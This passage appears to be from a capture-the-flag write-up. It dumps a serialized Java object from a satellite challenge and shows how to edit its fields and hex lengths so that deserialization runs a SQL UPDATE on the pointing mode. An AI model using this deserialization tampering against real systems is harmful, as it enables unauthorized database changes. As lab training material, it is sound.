 ```
          fieldName
            Length - 8 - 0x00 08
            Value - isUpdate - 0x6973557064617465
        2:
          Object - L - 0x4c
          fieldName
            Length - 15 - 0x00 0f
            Value - pathOrStatement - 0x706174684f7253746174656d656e74
          className1
            TC_STRING - 0x74
              newHandle 0x00 7e 00 01
              Length - 18 - 0x00 12
              Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 02
    classdata
      SatelliteQueryFileFolderUtility
        values
          isQuery
            (boolean)false - 0x00
          isUpdate
            (boolean)false - 0x00
          pathOrStatement
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 41 - 0x00 29
                Value - /opt/SatelliteQueryFileFolderUtility.java - 0x2f6f70742f536174656c6c697465517565727946696c65466f6c6465725574696c6974792e6a617661
```

We have serailized data being inserted into the Object field of the satellite_query table. This data is being input as variables into the atelliteQueryFileFolderUtility() function, and the results are saved to the results column. In this case, it read it's own java file and put it in the results column for us to see. 
Probably shouldn't do that in production.

So, we need to put our own variables in to UPDATE the pointing_mode.numerical_mode value to point to the Sun rather than the earth. So we modify the variables and upate the hex and length values accordingly.

```
    classdata
      SatelliteQueryFileFolderUtility
        values
          isQuery
            (boolean)true - 0x01
          isUpdate
            (boolean)true - 0x01
          pathOrStatement
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 43 - 0x00 2b
                Value - UPDATE pointing_mode SET numerical_mode = 1 - 0x55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031
```
Save it to a file, serialize it, and convert it to hex
